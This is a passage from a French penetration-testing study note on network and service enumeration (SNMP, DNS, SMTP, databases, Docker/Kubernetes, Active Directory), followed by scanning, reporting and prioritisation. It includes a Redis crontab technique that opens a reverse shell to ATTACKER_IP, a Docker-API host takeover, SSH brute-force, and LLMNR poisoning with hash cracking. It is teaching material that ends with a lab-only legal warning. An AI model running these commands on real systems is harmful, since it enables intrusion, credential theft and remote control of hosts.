| `.1.3.6.1.2.1.4.20` | Adresses IP | Toutes les IPs |
| `.1.3.6.1.2.1.2.1` | Interface count | Nombre d'interfaces |
| `.1.3.6.1.2.1.2.2.1.2` | Noms d'interfaces | eth0, wlan0... |
| `.1.3.6.1.2.1.25.4.2` | Processus | Liste des processus |
| `.1.3.6.1.2.1.25.6.3.1.2` | Services Windows | Services installés |
| `.1.3.6.1.2.1.25.3.2.1.3` | Exécutables | Paths des binaires |
| `.1.3.6.1.4.1.77.1.2.25` | Users Windows (UWIN) | Énumération users |
| `.1.3.6.1.4.1.9.9.43` | Cisco conf run | Configuration routeur |
| `.1.3.6.1.4.1.9.2.1.3` | Cisco sysName | Nom du routeur |
| `.1.3.6.1.4.1.2021.7890.1` | custom | Parfois MDP en clair ! |

### 9.3 Communautés par défaut

| Communauté | Probabilité | Risque |
|---|---|---|
| `public` | Très élevée | Read-only sur tout |
| `private` | Élevée | Souvent read-write |
| `manager` | Moyenne | Accès management |
| `community` | Moyenne | Generic |
| `snmp` | Faible | Oubli fréquent |
| Nom du device | Variable | Hostname = communauté |

```bash
# Brute-force de communautés
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 192.168.1.10

# snmpwalk avec communauté trouvée
snmpwalk -c public -v2c 192.168.1.10 1
snmpwalk -c private -v2c -authPriv 192.168.1.10 1
```

---

## 10. Énumération DNS

L'énumération DNS permet de découvrir sous-domaines, records, et services cachés.

### 10.1 Requêtes de base

```bash
# dig — outil de référence
dig example.com A
dig example.com MX
dig example.com NS
dig example.com ANY
dig example.com TXT
dig +noall +answer example.com ANY           # propre et rapide
dig @8.8.8.8 example.com A                   # serveur spécifique

# nslookup (plus simple)
nslookup example.com
nslookup -type=MX example.com
nslookup -type=NS example.com
```

### 10.2 Zone Transfer (AXFR) — faille critique

```bash
# Tenter un zone transfer
dig axfr example.com @ns1.example.com
dig axfr example.com @$(dig +short NS example.com | head -1)

# Nmap
nmap --script dns-zone-transfer -p 53 ns1.example.com

# Si ça marche → dump complet de toutes les records
# Révélation de sous-domaines, IPs internes, etc.
```

### 10.3 Dénombrement de sous-domaines

```bash
# dnsrecon — complet
dnsrecon -d example.com -t std                 # standard
dnsrecon -d example.com -t brt -D subdomains.txt  # brute-force
dnsrecon -d example.com -t axfr                # zone transfer
dnsrecon -d example.com -t srv                 # records SRV

# fierce — rapide et efficace
fierce --domain example.com
fierce --domain example.com --subdomains-file wordlist.txt

# dnsx (ProjectDiscovery)
cat domains.txt | dnsx -silent -a -resp

# Subfinder — passive uniquement
subfinder -d example.com -o subdomains.txt
```

### 10.4 Types de records DNS

| Type | Description | Intérêt pentest |
|---|---|---|
| A | Adresse IPv4 | IP du serveur |
| AAAA | Adresse IPv6 | Parfois oublié, moins sécurisé |
| MX | Mail exchange | Serveurs mail |
| NS | Name servers | Zone transfer possible |
| TXT | Texte | SPF, DKIM, parfois des MDP |
| CNAME | Alias | Découvrir des services cachés |
| SOA | Start of Authority | Info sur la zone |
| SRV | Service | Services AD (LDAP, Kerberos) |
| PTR | Reverse DNS | Nom d'hôte → IP |

### 10.5 Wildcard detection

```bash
# Vérifier si le domaine utilise un wildcard DNS
dig random-string-12345.example.com
# Si ça répond → wildcard actif, la brute-force sera bruitée

# Contourner le wildcard avec le filtre de réponse
fierce --domain example.com --wide
```

---

## 11. Énumération SSH

SSH expose des informations utiles même sans credentials.

```bash
# Bannière et version
nmap -sV -p 22 192.168.1.10
nc -nv 192.168.1.10 22

# Tester les méthodes d'authentification
ssh -v -o "PreferredAuthentications=none" user@192.168.1.10

# Enumérer les algorithms supportés
nmap --script ssh2-enum-algos -p 22 192.168.1.10
ssh-audit 192.168.1.10                         # outil dédié

# Clés SSH exposées
nmap --script ssh-hostkey -p 22 192.168.1.10

# Tester la force brute
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10
medusa -h 192.168.1.10 -u user -P wordlist.txt -M ssh
```

| Information | Source | Utilité |
|---|---|---|
| Version OpenSSH | Bannière SSH | CVE spécifiques |
| Algorithms supportés | ssh2-enum-algos | Downgrade attack |
| Clé publique SSH | ssh-hostkey | Fingerprint unique |
| Méthodes d'auth | PreferredAuthentications | Keyboard-interactive |
| User enumeration | Timing attack | Valid users list |

---

## 12. Énumération Email/SMTP

SMTP permet d'**énumérer les utilisateurs** et de recueillir des adresses email.

```bash
# Connexion SMTP
nc -nv 192.168.1.10 25
telnet 192.168.1.10 25

# EHLO pour voir les extensions
EHLO test
HELP

# VRFY — vérifier si un user existe
VRFY admin
VRFY administrator

# EXPN — étendre une mailing list
EXPN developers

# RCPT TO — valider des adresses
MAIL FROM:<test@example.com>
RCPT TO:<admin@example.com>

# Nmap
nmap --script smtp-enum-users -p 25 192.168.1.10
nmap --script smtp-open-relay -p 25 192.168.1.10
nmap --script smtp-vuln-cve2010-4344 -p 25 192.168.1.10
```

```bash
#smtp-user-enum — brute-force de users
smtp-user-enum -M VRFY -U users.txt -t 192.168.1.10

# theHarvester — collecte d'emails
theHarvester -d example.com -b google,bing,linkedin

# Voir aussi [[Outils/Outil - theHarvester|theHarvester]]
```

| Commande SMTP | Fonction | Bloquée en prod ? |
|---|---|---|
| `VRFY` | Vérifie un username | Souvent |
| `EXPN` | Liste les membres d'un groupe | Très souvent |
| `RCPT TO` | Teste une adresse email | Rarement |
| `MAIL FROM` | Définir l'expéditeur | Non |

---

## 13. Énumération des bases de données

Chaque SGBD a ses méthodes de connexion et ses vecteurs d'attaque spécifiques.

### 13.1 MySQL

```bash
mysql -h 192.168.1.10 -u root --skip-password
SHOW databases; SELECT user, host FROM mysql.user;
nmap --script mysql-info,mysql-enum -p 3306 192.168.1.10
```

### 13.2 PostgreSQL

```bash
psql -h 192.168.1.10 -U postgres
\l; \dt; \du; SELECT current_user, version();
```

### 13.3 Redis

```bash
redis-cli -h 192.168.1.10                      # souvent sans auth
INFO; CONFIG GET *; KEYS *; DBSIZE
# RCE classique via crontab
redis-cli -h 192.168.1.10 << EOF
SET 1 "\n\n*/1 * * * * bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1\n\n"
CONFIG SET dir /var/spool/cron/
CONFIG SET dbfilename root
SAVE
EOF
```

### 13.4 MongoDB

```bash
mongosh "mongodb://192.168.1.10:27017"          # souvent sans auth
show dbs; use admin; show collections; db.users.find()
```

### 13.5 MSSQL

```bash
mssqlclient.py 'sa:password'@192.168.1.10
nmap --script ms-sql-info,ms-sql-brute -p 1433 192.168.1.10
nxc mssql 192.168.1.10 -u sa -p password --dbs
```

### 13.6 Oracle

```bash
odat all -s 192.168.1.10 -p 1521
nmap --script oracle-tns-version -p 1521 192.168.1.10
```

### Récapitulatif des ports de bases de données

| SGBD | Port | Protocole | Auth par défaut |
|---|---|---|---|
| MySQL | 3306 | TCP | Souvent `root:` (vide) |
| PostgreSQL | 5432 | TCP | Souvent `postgres:postgres` |
| MSSQL | 1433 | TCP | Variable (sa) |
| Oracle | 1521 | TCP | Variable |
| MongoDB | 27017 | TCP | Souvent aucun |
| Redis | 6379 | TCP | Souvent aucun |
| CouchDB | 5984 | TCP | Souvent `admin:admin` |
| Memcached | 11211 | TCP/UDP | Aucun |

---

## 14. Énumération RDP

RDP (Remote Desktop Protocol) est un vecteur d'entrée fréquent, surtout pour le Brute-force.

```bash
nmap --script rdp-info,rdp-vuln-ms12-020,rdp-enum-encryption -p 3389 192.168.1.10
nxc rdp 192.168.1.10 -u '' -p '' --niping
rdp-check 192.168.1.10
```

| Élément | Description |
|---|---|
| Port | 3389 (TCP) |
| NLA (Network Level Auth) | Auth avant session graphique |
| BlueKeep | CVE-2019-0708, vulnérabilité critique |

---

## 15. Énumération Docker/Kubernetes

### 15.1 Docker API exposée

```bash
# Vérifier si l'API Docker est exposée
curl http://192.168.1.10:2375/version
curl http://192.168.1.10:2375/containers/json

# Via Docker CLI
docker -H tcp://192.168.1.10:2375 ps
docker -H tcp://192.168.1.10:2375 images
docker -H tcp://192.168.1.10:2375 info

# RCE : lancer un container avec le filesystem hôte monté
docker -H tcp://192.168.1.10:2375 run -v /:/mnt --rm -it alpine chroot /mnt sh
```

> [!warning] Docker API = root immédiat
> Si l'API Docker est exposée sans auth, on obtient **root sur l'hôte** en montant le filesystem via un container.

Voir [[Techniques/Insecure Management Interface]] pour plus de détails.

### 15.2 Kubernetes API

```bash
# Kubernetes API (souvent sur 6443)
curl -k https://192.168.1.10:6443/api/v1
curl -k https://192.168.1.10:6443/version
curl -k https://192.168.1.10:6443/api/v1/namespaces
curl -k https://192.168.1.10:6443/api/v1/secrets

# Kubeconfig trouvé sur un host compromis
kubectl --kubeconfig=kubeconfig.yaml get pods --all-namespaces
kubectl --kubeconfig=kubeconfig.yaml get secrets --all-namespaces
kubectl --kubeconfig=kubeconfig.yaml exec -it pod-name -- /bin/sh

# Service accounts
curl -k -H "Authorization: Bearer $(cat /var/run/secrets/kubernetes.io/serviceaccount/token)" \
  https://kubernetes.default.svc/api/v1/namespaces/default/pods
```

| Port | Service | Intérêt |
|---|---|---|
| 2375 | Docker API (HTTP) | RCE root direct |
| 2376 | Docker API (HTTPS) | Si certificat compromis |
| 6443 | Kubernetes API | Secrets, pods, RCE |
| 10250 | kubelet | Execution dans les pods |
| 10255 | kubelet (read-only) | Listing des pods |

---

## 16. Énumération Réseau Interne

### 16.1 Interfaces et routage

```bash
ip a; ip route; cat /etc/resolv.conf         # Linux
ipconfig /all; route print; netstat -rn       # Windows
```

### 16.2 Scan interne depuis un host compromis

```bash
nmap -sn 10.0.0.0/24                          # discovery
masscan 10.0.0.0/24 -p80,443,445,3389 --rate=1000
ip route | grep -v default                    # sous-réseaux
```

### 16.3 Capture passive du trafic

```bash
tcpdump -i eth0 -w capture.pcap
tcpdump -i eth0 port 445 or port 3389
tshark -i eth0 -f "port 445" -Y "smb2" -T fields -e smb2.cmd
```

Voir [[Outils/Outil - Wireshark|Wireshark]] pour l'analyse graphique.

### 16.4 LLMNR/NBT-NS Poisoning

```bash
# Responder — intercepte les requêtes de résolution de noms
responder -I eth0 -wrf
responder -I eth0 -v

# Capture des hashes NTLM
# → les hashes sont stockés dans /responder/logs/

# Cracking des hashes capturés
hashcat -m 5600 hashes.txt wordlist.txt           # NTLMv2
john --format=nt hashes.txt
```

Voir [[Techniques/LLMNR-NBT-NS Poisoning]] pour la théorie détaillée.

---

## 17. Reconnaissance Passive

La recon passive n'implique aucun contact direct avec la cible.

### 17.1 Moteurs de recherche d'infrastructure

| Outil | Type | Usage |
|---|---|---|
| [[Outils/Outil - Shodan CLI|Shodan CLI]] | Search engine | Services exposés, banners |
| [[Outils/Outil - Censys|Censys]] | Search engine | Certificats, hosts |
| crt.sh | Certificate Transparency | Sous-domaines via certificats |
| Censys | Certificats | Sous-domaines |
| Google Dorking | Search engine | Fichiers exposés |

```bash
shodan search "org:target port:443"
shodan host 1.2.3.4
curl -s "https://crt.sh/?q=%.example.com&output=json" | jq -r '.[].name_value' | sort -u
theHarvester -d example.com -b google,bing,linkedin
sherlock username
```

Voir [[Outils/Outil - Shodan CLI|Shodan CLI]], [[Outils/Outil - theHarvester|theHarvester]], [[Outils/Outil - Recon-ng|Recon-ng]], [[Outils/Outil - Maltego|Maltego]].

---

## 18. Corrélation version → CVE

### 18.1 Nmap + Vulners

```bash
# Script vulners — base de données CVE
nmap --script vulners -sV 192.168.1.10

# Combinaison vuln scripts
nmap --script "vuln" -sV -p 80,443 192.168.1.10

# Scripts ciblés par service
nmap --script smb-vuln-ms17-010 -p 445 192.168.1.10
nmap --script http-shellshock -p 80 192.168.1.10
nmap --script ssl-heartbleed -p 443 192.168.1.10
```

### 18.2 SearchSploit (Exploit-DB local)

```bash
# Recherche par nom
searchsploit apache 2.4.49
searchsploit openssh 8.2

# Recherche par CVE
searchsploit cve-2024-3400
searchsploit cve-2023-44487

# Voir le code d'un exploit
searchsploit -x 50383.py

# Copier localement
searchsploit -m 50383.py

# Recherche par type
searchsploit --type remote

# Options utiles
searchsploit --colour                   # couleurs
searchsploit -n 50383                   # par ID exact
searchsploit -u URL                     # update
```

Voir [[Outils/Outil - SearchSploit|SearchSploit]] pour les détails.

### 18.3 Sources de CVE en ligne

| Source | Usage |
|---|---|
| NIST NVD (nvd.nist.gov) | Référentiel officiel CVE |
| Vulners (vulners.com) | Recherche rapide + API |
| GitHub Advisory | Vulns de packages |
| Exploit-DB | Code d'exploitation |

Voir [[Outils/Outil - SearchSploit|SearchSploit]].

### 18.4 Processus de corrélation



---

## 19. Vulnerability Scanning

Au-delà de Nmap, des scanners dédiés offrent une couverture plus large.

### 19.1 Nuclei — scanner basé sur des templates

```bash
# Scan complet avec tous les templates
nuclei -u http://192.168.1.10

# Par sévérité
nuclei -u http://192.168.1.10 -severity critical,high

# Par catégorie
nuclei -u http://192.168.1.10 -t cves/
nuclei -u http://192.168.1.10 -t vulnerabilities/
nuclei -u http://192.168.1.10 -t misconfigurations/

# Batch
nuclei -l urls.txt -t /opt/nuclei-templates/ -o results.txt

# Personnaliser les templates
nuclei -u http://192.168.1.10 -t custom-templates/
```

Voir [[Outils/Outil - nuclei|nuclei]].

### 19.2 Nikto — scanner web

```bash
nikto -h http://192.168.1.10 -C all
nikto -h http://192.168.1.10 -p 8080
nikto -h http://192.168.1.10 -o rapport.html -Format htm
nikto -h http://192.168.1.10 -Tuning 1234b        # tests spécifiques
```

Voir [[Outils/Outil - nikto|nikto]].

### 19.3 WPScan — CMS WordPress

```bash
# Énumération complète
wpscan --url http://192.168.1.10 --enumerate vp,vt,u

# Avec API token pour les CVE
wpscan --url http://192.168.1.10 --api-token TOKEN --enumerate vp,vt,u

# Brute-force
wpscan --url http://192.168.1.10 --passwords rockyou.txt --usernames admin
```

### 19.4 Comparaison des scanners

| Scanner | Type | Avantage | Inconvénient |
|---|---|---|---|
| Nmap NSE | Multi-service | Léger, rapide | Portée limitée |
| Nuclei | Web + infra | Templates immenses | Faux positifs |
| Nikto | Web | Simple | Lent, obsolète |
| WPScan | WordPress | Spécialiste | Uniquement WP |
| OpenVAS | Multi-service | Exhaustif | Lent, lourd |

---

## 20. Énumération AD sans credentials

L'énumération sans credentials est possible grâce aux faiblesses de configuration d'Active Directory.

### 20.1 Anonymous LDAP

```bash
# Tester l'anonymous bind
ldapsearch -x -H ldap://192.168.1.10 -b "" -s base "(objectClass=*)"

# Si ça marche → dump complet
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com" "(objectClass=user)" sAMAccountName
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com" "(objectClass=group)"
```

### 20.2 Null Session SMB

```bash
nxc smb 192.168.1.10 -u '' -p '' --shares
nxc smb 192.168.1.10 -u '' -p '' --users
nxc smb 192.168.1.10 -u '' -p '' --rid-brute
enum4linux-ng -A 192.168.1.10
```

### 20.3 RPC Enumeration

```bash
rpcclient -U "" 192.168.1.10
  > enumdomusers; enumdomgroups; getdompwinfo
nmap --script msrpc-enum,samBA -p 135,445 192.168.1.10
```

### 20.4 Kerberos User Enumeration

```bash
# Kerbrute — énumération sans auth
kerbrute userenum --dc dc.example.com -d example.com users.txt

# Via AS-REP (si pre-auth désactivée)
# Les users sans pre-auth répondent avec un AS-REP
```

### 20.5 DNS Dynamic Updates

```bash
# Si les updates DNS sont ouvertes
nsupdate -l
> add fake.example.com 86400 A 10.10.10.99
> send

# Lister les enregistrements via DNS
dnsenum example.com
```

---

## 21. Énumération AD avec credentials

Avec un seul compte utilisateur, on peut extraire énormément d'informations.

### 21.1 BloodHound — cartographie AD

```bash
# SharpHound (sur host Windows compromis)
SharpHound.exe -c All -d example.com

# bloodhound-python (depuis Linux)
bloodhound-python -u user -p pass -d example.com -ns 192.168.1.10 -c All

# Options de collecte
# -c All        : tout collecter
# -c Session    : sessions uniquement
# -c ACL        : ACLs uniquement
# -c Group      : groupes uniquement
```

Voir [[Outils/Outil - BloodHound|BloodHound]].

### 21.2 Énumération LDAP complète

```bash
nxc ldap 192.168.1.10 -u user -p pass --users
nxc ldap 192.168.1.10 -u user -p pass --groups
nxc ldap 192.168.1.10 -u user -p pass --computers
nxc ldap 192.168.1.10 -u user -p pass --get-sid
nxc ldap 192.168.1.10 -u user -p pass --pass-pol
nxc ldap 192.168.1.10 -u user -p pass --spn
nxc ldap 192.168.1.10 -u user -p pass --gmsa
nxc ldap 192.168.1.10 -u user -p pass --aps
```

### 21.3 SPN, Delegation, LAPS/GMSA

```bash
# SPN (Kerberoasting)
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com" \
  "(servicePrincipalName=*)" servicePrincipalName sAMAccountName
# Unconstrained delegation
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com" \
  "(userAccountControl:1.2.840.113556.1.4.803:=524288)" sAMAccountName
# LAPS
nxc ldap 192.168.1.10 -u user -p pass --laps-read
# GMSA
nxc ldap 192.168.1.10 -u user -p pass --gmsa
```

Voir [[Techniques/Kerberos Delegation]], [[Techniques/LAPS et GMSA]].

---

## 22. Outils de reporting

Un bon scan sans rapport = temps perdu. Structurer les résultats est essentiel.

### 22.1 Formats de sortie Nmap

```bash
# Tous les formats
nmap -oA rapport_scan -sV -sC 192.168.1.10

# XML → HTML
xsltproc rapport_scan.xml -o rapport_scan.html

# XML → JSON (avec xq de yq)
xq -r rapport_scan.xml > rapport_scan.json
```

### 22.2 Structurer ses notes

```bash
# Créer un répertoire de travail
mkdir -p recon/{nmap,web,smb,ldap,dns}

# Sauvegarder chaque scan
nmap -oA recon/nmap/nmap_full 192.168.1.10
ffuf -o recon/web/ffuf_dirs.json -of json ...
enum4linux-ng -A -J recon/smb/enum.json 192.168.1.10
```

### 22.3 Génération de rapports

| Outil | Format | Usage |
|---|---|---|
| Nmap XSL | HTML | Rapport de scan |
| nuclei -json | JSON | Résultats vulns |
| Faraday | Multi | Dashboard collaboratif |
| Markdown | MD | Notes personnelles |

> [!tip] Format de rapport type
> Chaque finding doit contenir : **Titre**, **Service/Port**, **Description**, **CVE (si applicable)**, **Preuve** (commande + output), **Impact**, **Recommandation**.

---

## 23. La vie après l'énumération

### 23.1 Checklist "qu'est-ce que je fais avec un service ouvert ?"

> [!success] **Checklist "qu'est-ce que je fais avec un service ouvert ?"**
>
> | Service | Questions à se poser |
> |---|---|
> | **HTTP/HTTPS** | CMS ? Fichiers exposés ? Uploads ? Paramètres ? |
> | **SMB** | Partages anonymes ? Version (SMB1) ? EternalBlue ? |
> | **SSH** | Version ? Users énumérés ? MDP par défaut ? |
> | **RDP** | Version vulnérable (BlueKeep) ? Brute-force ? |
> | **MySQL/Postgres/Redis** | Auth par défaut ? Exécution de fichiers ? |
> | **SNMP** | Communauté "public" ? OIDs sensibles ? |
> | **Kerberos** | Comptes pre-auth non requise (AS-REP) ? |

### 23.2 Arbre de décision post-énumération



### 23.3 Priorisation des vecteurs

| Priorité | Critère | Exemple |
|---|---|---|
| **P0** | RCE directe, sans auth | Docker API exposé, Redis sans auth |
| **P1** | Auth faible + CVE connue | SMB EternalBlue, Apache RCE |
| **P2** | Auth par défaut | MySQL root vide, Redis sans pass |
| **P3** | Bruteforce possible | SSH, RDP, Web login |
| **P4** | Informations utiles | SNMP public, LDAP anonymous |
| **P5** | Surface d'attaque | Web app, endpoints découverts |

---

## 24. Tips & Pièges

> [!tip] **Le workflow de scan efficace (rapide d'abord)**
> ```bash
> # 1. Découverte d'hôtes (avant tout nmap)
> netdiscover -r 192.168.1.0/24            # ARP (local uniquement)
> arp-scan -l
> # 2. Scan de tous les ports VITE (masscan, très rapide)
> masscan 192.168.1.10 -p1-65535 --rate=1000 -oL masscan.out
> # 3. nmap détaillé UNIQUEMENT sur les ports ouverts trouvés
> nmap -sV -sC -Pn -p 22,80,443,445,3389 192.168.1.10
> ```
> Passer du temps sur `-sV -sC` sur **tous** les 65535 ports = beaucoup de temps perdu.

> [!tip] **ICMP bloqué ?**
> ```bash
> # Si ping ne répond pas, forcer le scan (ne pas s'arrêter là)
> nmap -Pn 192.168.1.10
> # Découverte via -sn avec TCP
> nmap -sn -PS21,22,80,443 192.168.1.0/24
> ```

> [!tip] **Parsing des résultats (gagner des heures)**
> ```bash
> # Extraire "IP:port" de tous les scans
> grep "open" scan.gnmap | cut -d' ' -f2 > hots.txt
> # Récupérer port + service
> awk '{print $1, $2, $3}' scan.gnmap | grep open
> # XML → HTML joli rapport
> xsltproc scan.xml -o scan.html
> ```

> [!warning] **Piège n°1 : le scan UDP**
> `-sU` est **extrêmement lent**. Ne scannes que les top ports (`--top-ports 20`) et
> prioritise les services UDP critiques : **SNMP (161), DNS (53), NTP (123), TFTP (69)**.

> [!warning] **Piège n°2 : scripts intrusifs en prod**
> `--script vuln` et les scans `-O` peuvent **crasher** des services. Sur un engagement réel,
> préfère `-sV` propre, puis lance les scripts vuln **ciblés** service par service.

> [!warning] **Piège n°3 : services "muets"**
> Un port ouvert ≠ service exploitable. Un service **sans bannière** (nmap met `unknown`)
> mérite un test manuel : `nc -nv IP port`, puis le traffic peut être sur `TLS` (`openssl s_client`).

> [!success] **La règle d'or de l'énumération**
> **Chaque service ouvert = une piste d'exploitation potentielle.** Avant de t'acharner sur une
> vulnérabilité, termine l'énumération complète (SMB + LDAP + Kerberos + HTTP + tous les ports).
> Souvent la faille "facile" était sur un service que tu n'avais pas encore regardé.

> [!tip] **Piège n°4 : les faux positifs avec --script vuln**
> Nmap retourne parfois des CVE qui ne s'appliquent pas à la version exacte. **Toujours vérifier** la version exacte du service et comparer avec le CVE affiché. Un Apache 2.4.51 ne sera pas vulnérable à une CVE affectant uniquement 2.4.49.

> [!warning] **Piège n°5 : oublier le DNS reverse**
> Ne pas oublier de faire un `nmap -sL` ou `dnsreverse` sur les IPs trouvées. Parfois le hostname révèle le rôle de la machine (`dc01`, `sql-prod`, `backup-server`).

> [!tip] **Piège n°6 : la vitesse vs la fiabilité**
> Masscan est 600x plus rapide que Nmap mais **rate 2-5% des ports**. Pour un pentest officiel, toujours compléter avec Nmap sur les ports trouvés. Pour un CTF, Masscan seul suffit souvent.

> [!warning] **Piège n°7 : les scans sur les hosts Windows fragiles**
> Certains hôtes Windows anciens crashent avec les scans agressifs. Utiliser `-T2` ou `-T3` et limiter les probes (`--max-retries 2`) pour ne pas interrompre le service.

> [!tip] **Piège n°8 : le tunnel SSH pour pivoter**
> Si tu compromises un host dans un réseau interne, utilise un tunnel SSH pour y lancer tes scans :
> ```bash
> ssh -L 8080:target_internal:80 user@compromised_host
> # Puis scanner via le tunnel
> nmap -sV -p 80 127.0.0.1 -Pn
> ```
> Voir [[Techniques/Pivoting et Tunneling]].

---

## 25. Scan SSL/TLS & Certificats

L'analyse SSL/TLS révèle les faiblesses cryptographiques et les certificats exposés.

```bash
nmap --script ssl-cert,ssl-enum-ciphers -p 443 192.168.1.10
nmap --script ssl-heartbleed -p 443 192.168.1.10
openssl s_client -connect 192.168.1.10:443 -servername example.com
sslscan 192.168.1.10:443
```

### Failles SSL/TLS courantes

| Faille | CVE | Impact |
|---|---|---|
| Heartbleed | CVE-2014-0160 | Lecture mémoire serveur |
| POODLE | CVE-2014-3566 | Downgrade SSL 3.0 |
| BEAST | CVE-2011-3389 | Chiffrement interceptable |
| ROBOT | CVE-2017-13099 | RSA key leakage |
| Weak cipher | - | DES, RC4, 3DES |

---

## 26. Wordlists & Stratégies de Fuzzing

| Wordlist | Chemin | Usage |
|---|---|---|
| dirb/common.txt | `/usr/share/wordlists/dirb/common.txt` | Rapide, léger |
| dirbuster medium | `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` | Exhaustif |
| SecLists Discovery | `/usr/share/seclists/Discovery/Web-Content/` | Collection complète |
| rockyou.txt | `/usr/share/wordlists/rockyou.txt` | Brute-force mots de passe |

```bash
# Stratégie : rapide → extensions → filtre bruit → récursion
ffuf -w common.txt -u http://target/FUZZ -mc 200
ffuf -w common.txt -u http://target/FUZZ -e .php,.asp,.aspx,.jsp
ffuf -w medium.txt -u http://target/FUZZ -mc 200 -fs 1234 -fc 403
ffuf -w common.txt -u http://target/FUZZ -recursion -recursion-depth 2
# POST brute-force
ffuf -w users.txt -X POST -d "user=FUZZ&pass=pass" -u http://target/login -fs 0
# Générer une wordlist depuis un site
cewl http://target -w custom_wordlist.txt -d 3 -m 5
```

---

## 27. Automatisation & Pipeline

### 27.1 Script de scan automatisé

```bash
#!/bin/bash
TARGET=$1; OUTDIR="recon_$(date +%Y%m%d)"; mkdir -p $OUTDIR
nmap -sn $TARGET -oN $OUTDIR/hosts.txt
masscan $TARGET -p0-65535 --rate=2000 -oL $OUTDIR/masscan.txt 2>/dev/null
PORTS=$(grep "open" $OUTDIR/masscan.txt | awk -F'/' '{print $1}' | sort -un | tr '\n' ',')
nmap -sV -sC -Pn -p $PORTS $TARGET -oA $OUTDIR/nmap_detail
echo "[+] Terminé dans $OUTDIR/"
```

### 27.2 Outils d'automatisation

| Outil | Usage | Description |
|---|---|---|
| AutoRecon | Scan complet automatique | Nmap + Nikto + Gobuster |
| ReconFTW | Pipeline de recon | Multi-outils intégrés |
| NetExec | Multi-protocoles | SMB/LDAP/WinRM/SSH |
| Sliver | Framework C2 | Post-exploitation |

### 27.3 Parser les résultats

```bash
# Extraire toutes les IPs actives
grep "open" scan.gnmap | awk '{print $2}' | sort -u > ips.txt

# Extraire IP:port uniques
grep "open" scan.gnmap | awk '{for(i=2;i<=NF;i++) if($i ~ /open/) print $1":"$(i-1)}' | sort -u

# Compter les services par port
grep "open" scan.gnmap | awk '{print $4}' | sort | uniq -c | sort -rn
```

---

## 28. Score & Priorisation des vulnérabilités

### 28.1 CVSS — Common Vulnerability Scoring System

| Score CVSS | Sévérité | Action |
|---|---|---|
| 9.0 - 10.0 | Critique | Exploiter en priorité |
| 7.0 - 8.9 | Élevée | Exploiter rapidement |
| 4.0 - 6.9 | Moyenne | Documenter et planifier |
| 0.1 - 3.9 | Basse | Noter pour le rapport |

### 28.2 Matrice de priorisation



### 28.3 Priorisation contextuelle

| Facteur | Impact sur la priorité |
|---|---|
| Exposition réseau (Internet vs LAN) | +2 niveaux si Internet |
| Données sensibles accessibles | +1 niveau |
| Compte admin compromis | +3 niveaux |
| Patch disponible | -1 niveau |
| Contrôle d'accès partiel | Facteur atténuant |
| Exploit public disponible | +1 niveau |

### 28.4 Documenter chaque finding

Pour chaque vulnérabilité identifiée, structurer ainsi :

| Champ | Contenu |
|---|---|
| **Titre** | Nom court et descriptif |
| **CVE** | Identifiant CVE (si applicable) |
| **CVSS** | Score de sévérité |
| **Service** | Port + nom du service |
| **Preuve** | Commande exécutée + output |
| **Impact** | Ce que l'attaquant peut faire |
| **Remédiation** | Comment corriger le problème |

---

> [!warning] **Rappel légal** : scan = intrusion dans la plupart des juridictions sans autorisation. Lab uniquement !

Suite logique : [[03 - Exploitation Web| Exploitation Web]] / [[05 - Active Directory| Active Directory]]
